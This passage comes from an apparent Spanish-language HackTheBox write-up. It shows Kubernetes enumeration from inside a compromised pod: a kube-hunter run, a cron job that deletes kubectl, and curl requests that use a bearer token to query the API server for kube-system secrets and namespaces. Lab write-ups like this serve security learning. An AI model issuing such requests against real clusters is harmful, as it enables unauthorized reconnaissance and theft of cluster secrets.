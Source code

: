 ```bash
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$ ./kube-hunt --cidr 10.96.0.1
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338bash_pollutionSH_kubeHunter.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Donde únicamente nos reporta una versión, pero dando vueltas con ella no logramos nada :'(

En nuestra búsqueda llegamos ahora a [este post](https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-1), acá juega con la **API** mediante `cURL` y una herramienta llamada `kubectl`, que curiosamente el sistema tiene una tarea programa para en caso de encontrarlo, borrarlo:

```bash
root@webapp-deployment-5d764566f4-mbprj:/tmp/testeee$ crontab -l
* * * * * find / -name kubectl -exec rm {} \;
```

Así que puede ser importante, pero veamos primero lo de `cURL`:

⚡ (***<u>Voy a simplificar el output, así que nos quedaremos con que estamos en</u> `<devnode>`***)

```bash
<devnode>$ curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/kube-system/secrets
```

Pero nos devuelve que no tenemos acceso a ese recurso como nuestro usuario ): peeeeero, ¿y si quitamos `secrets`?

```bash
<devnode>$ curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/kube-system
```

![338bash_pollutionSH_API_names_kubeSystem](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338bash_pollutionSH_API_names_kubeSystem.png)

Lindo, empezamos a encontrar rutas que nos devuelven algo distinto a **Forbidden**, así que tamos bieeeeen...

Estamos sobre un cluster llamado `kube-system`, si vamos hacia atras intentando listar los "[espacios de nombres](https://kubernetes.io/es/docs/concepts/overview/working-with-objects/namespaces/)" (clusters virtuales) encontramos uno llamativo:

```bash
<devnode>$ curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces
```

```json
{
  "kind": "NamespaceList",
  "apiVersion": "v1",
  "metadata": {
    "resourceVersion": "65796"
  },
  "items": [
    {
      "metadata": {
        "name": "default",
    ...
      "metadata": {
        "name": "dev",
    ...
      "metadata": {
        "name": "kube-node-lease",
    ...
      "metadata": {
          "name": "kube-public",
    ...
      "metadata": {
```